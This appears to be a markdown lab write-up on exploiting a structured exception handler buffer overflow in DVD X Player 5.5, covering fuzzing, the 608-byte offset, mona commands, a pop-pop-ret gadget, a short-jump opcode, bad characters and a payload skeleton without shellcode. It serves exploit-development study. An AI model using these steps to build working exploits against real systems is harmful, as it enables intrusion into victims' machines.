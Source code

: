 # SEH_buffer_overflow



- application is DVD-x-player 5.5
- SEH buffer overflow



### 1. Fuzzing



- vulnerability in playlist feature with in 2000 bytes

![image-20201217172226867](SEH_buffer_overflow.assets/image-20201217172226867.png)



- since it is a structured exception handling we need to find offset to next  nseh, seh



### 2. Finding Offset

- we will use mona module

```
!mona pattern_create 2000
```

```
!mona pattern_offset 33754132 == value present in next structured exception handler
```



![image-20201217173558243](SEH_buffer_overflow.assets/image-20201217173558243.png)



##### offset

**found offset at 608**



### 3. Overwriting 

- now we will try to control nseh and seh

![image-20201217174251044](SEH_buffer_overflow.assets/image-20201217174251044.png)

- now we have overwritten both nseh and seh



### 4. Find pop pop ret 

- we need to find pop pop ret instruction sequence if we want to jump where payload is saved 
- this will help us execute payload in stack

```
!mona seh -m -o
```

![image-20201217181625572](SEH_buffer_overflow.assets/image-20201217181625572.png)

- we can select any address for pop pop return sequence 
- after that we need to overwrtie nseh with 

```
EB 0B			jmp 12 bytes
```

 

### 5. Finding bad characters



- we need to find characters that application will not accept
- and remove them from our payload

```
!mona bytearray -cpb "\x00"
```

```
!mona compare -f C:\mona\DVDXPlayer\bytearray.bin -a 0012f1c2
```



##### badchars

```
"\x00\x0a\x1a"
```



### final payload



```
garbage = "A" * offset + nseh + seh + nops_led + payloads + nops_led
```

this will be payload skeleton

